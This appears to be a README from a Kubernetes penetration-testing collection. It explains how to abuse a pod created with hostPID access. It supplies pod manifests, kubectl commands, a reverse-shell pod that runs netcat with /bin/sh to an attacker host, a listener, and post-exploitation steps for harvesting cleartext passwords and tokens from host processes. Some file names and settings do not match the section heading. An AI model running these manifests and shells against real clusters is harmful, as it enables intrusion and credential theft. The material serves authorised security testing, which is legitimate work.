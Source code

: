 ## You can create a pod with only hostPID

You are exploiting the fact that there are no polices preventing the creation of pod with access to the node's filesystem. You are going to create a pod and gain full read/write access to the filesystem of the node the pod is running on. 


# Pod Creation

## Create a pod you can exec into
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-hostpid
  labels:
    app: hostpid
spec:
  hostPID: true
  containers:
  - image: ubuntu
    command:
      - "sleep"
      - "604800"
    imagePullPolicy: IfNotPresent
    name: hostpid
  # Force scheduling of your pod on master mode by uncommenting this line and changing the name
  #nodeName: k8s-master
  restartPolicy: Always
  ```
[pod-priv-only.yaml](pod-priv-only.yaml)

#### Option 1: Create pod from local yaml 
```bash
kubectl apply -f pod-hostpid-only.yaml   
```

#### Option 2: Create pod from github hosted yaml
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/yaml/hostpid-only/pod-hostpid-only.yaml  
```

### Exec into pod 
```bash
kubectl -n [namespace] exec -it pod-hostpid-only -- bash
```

## Or, create a reverse shell pod
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-priv-only-revshell
  labels: 
    app: priv-only-revshell
spec:
  containers:
  - name: priv-only-revshell
    image: busybox
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "nc $HOST $PORT  -e /bin/sh;" ]

    securityContext:
      privileged: true
  # Force scheduling of your pod on master mode by uncommenting this line and changing the name
  #nodeName: k8s-master
```
[pod-hostpid-only-revshell.yaml](pod-hostpid-only-revshell.yaml)

#### Set up listener
```bash
nc -nvlp 3116
```

#### Create the pod
```bash
# Option 1: Create pod from local yaml without modifying it by using env variables and envsubst
HOST="10.0.0.1" PORT="3116" 
envsubst < ./yaml/hostpid-only/pod-hostpid-only-revshell.yaml | kubectl apply -f -
```

#### Catch the shell and chroot to /host 
```bash
~ nc -nvlp 3116
Listening on 0.0.0.0 3116
Connection received on 10.0.0.162 42035
```


# Post exploitation
```bash
# View all processes running on the host and look for passwords, tokens, keys, etc. 
# Check out that clear text password in the ps output below! 

ps -aux
...omitted for brevity...
root     2123072  0.0  0.0   3732  2868 ?        Ss   21:00   0:00 /bin/bash -c while true; do ./my-program --grafana-uername=admin --grafana-password=admin; sleep 10;done
...omitted for brevity...

# Also, you can also kill any process, but don't do that in production :)
```


#### Attacks that apply to all pods, even without any special permissions
* Cloud metadata service
* `Kube-apiserver` or `kubelet` with `anonymous-auth` enabled
* Kubernetes exploits
* Hunting for vulnerable application/services in the cluster

# Demonstrate Impact

If you are performing a penetration test, the end goal is not to gain cluster-admin, but rather to demonstrate the impact of exploitation. Use the access you have gained to accomplish the objectives of the pentration test.

